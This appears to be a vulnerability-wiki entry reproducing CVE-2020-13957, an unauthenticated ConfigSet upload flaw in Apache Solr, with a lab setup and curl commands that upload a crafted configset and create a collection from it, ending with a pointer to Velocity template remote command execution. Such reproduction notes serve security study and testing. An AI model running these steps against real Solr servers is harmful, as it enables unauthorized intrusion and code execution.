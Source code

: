 ```yaml
---
title: Apache Solr RCE Unauthorized Upload Vulnerability CVE-2020-13957
---
```


# Apache Solr RCE Unauthorized Upload Vulnerability CVE-2020-13957

## Vulnerability Description

In a specific Solr version, the ConfigSet API has an unauthorized upload vulnerability, which can be exploited by an attacker to enable remote code execution.

## Affect Version

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

## Environment construction

Select a vulnerable version. Here the reproduction is `Apache Solr 7.7.0` for reproduction. After downloading, execute the following command for environmental deployment.

```shell
cd solr-7.7.0
./bin/solr start -e cloud -force
```

Then turn on until it appears

```shell
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: https://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: https://localhost:8983/solr
```

Visit https://xxx.xxx.xxx.xxx:8983/solr/ It's normal

## Vulnerability reappears

Download the target version of Solr on the attack machine and execute the following command to package the compressed file

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f.png)

Upload vuln.zip

```shell
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "https://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

The name parameter is the file name of the compressed package. Use the vulnerability to create a core

```shell
curl "https://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```


</a-alert>


</a-alert>
<br/>
Then use the Apache Solr Velocity template to remotely execute `CVE-2019-17558` to execute any command